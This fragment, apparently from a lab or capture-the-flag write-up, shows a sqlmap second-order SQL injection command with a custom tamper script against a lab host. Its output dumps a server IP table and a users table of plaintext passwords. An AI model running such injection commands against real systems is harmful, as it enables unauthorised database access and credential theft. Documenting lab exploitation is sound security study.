     root@kali# sqlmap --technique=U -r login.request --dbms mysql --tamper tamper-nightmare.py --second-order 'http://10.10.10.66/notes.php' -p user --proxy http://127.0.0.1:8080 --dump -D sys
    admin --no-cast
    ...
    Database: sysadmin
    Table: configs
    [13 entries]
    +------------+----------+
    | ip         | server   |
    +------------+----------+
    | 10.0.21.11 | server2  |
    | 10.0.21.12 | server3  |
    | 10.0.21.13 | server4  |
    | 10.0.21.14 | server5  |
    | 10.0.21.15 | server6  |
    | 10.0.21.16 | server7  |
    | 10.0.21.17 | server8  |
    | 10.0.21.18 | server9  |
    | 10.0.21.19 | server10 |
    | 10.0.21.20 | server11 |
    | 10.0.21.21 | server12 |
    | 10.0.21.22 | server13 |
    | 10.0.21.23 | server14 |
    +------------+----------+
    ...
    Database: sysadmin
    Table: users
    [11 entries]
    +--------------+-------------------+
    | username     | password          |
    +--------------+-------------------+
    | admin        | nimda             |
    | cisco        | cisco123          |
    | adminstrator | Pyuhs738?183*hjO! |
    | josh         | tontochilegge     |
    | system       | manager           |
    | root         | HasdruBal78       |
    | decoder      | HackerNumberOne!  |
    | ftpuser      | @whereyougo?      |
    | sys          | change_on_install |
    | superuser    | passw0rd          |
    | user         | odiolafeta        |
    +--------------+-------------------+
    ...
    